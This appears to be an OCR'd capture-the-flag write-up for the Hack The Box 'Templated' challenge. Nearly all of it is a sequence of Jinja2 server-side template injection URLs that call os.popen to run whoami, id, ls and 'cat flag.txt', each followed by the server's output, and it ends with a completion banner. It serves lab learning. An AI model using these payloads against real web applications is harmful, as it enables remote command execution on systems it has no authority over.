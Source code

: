 
¡¡¡¡¡¡¡¡¡¡¡ENCUENTRO COMANDOS !!!!!!
------------------------------------
http://157.245.42.82:30626/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('whoami').read()%7D%7D

Error 404

The page 'root ' could not be found



http://157.245.42.82:30626/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('id').read()%7D%7D
Error 404

The page 'uid=0(root) gid=0(root) groups=0(root) ' could not be found



http://157.245.42.82:30626/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('ls').read()%7D%7D

Error 404

The page 'bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var ' could not be found



http://157.245.42.82:30626/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('cat%20flag.txt').read()%7D%7D
The page 'HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!} ' could not be found


OWNED
-----------------------------------------------------------------------------------
Templated has been Pwned!
Congratulations
Akelarre
, best of luck in capturing flags ahead!

#16172

CHALLENGE RANK

07 May 2022

PWN DATE

20

POINTS EARNED

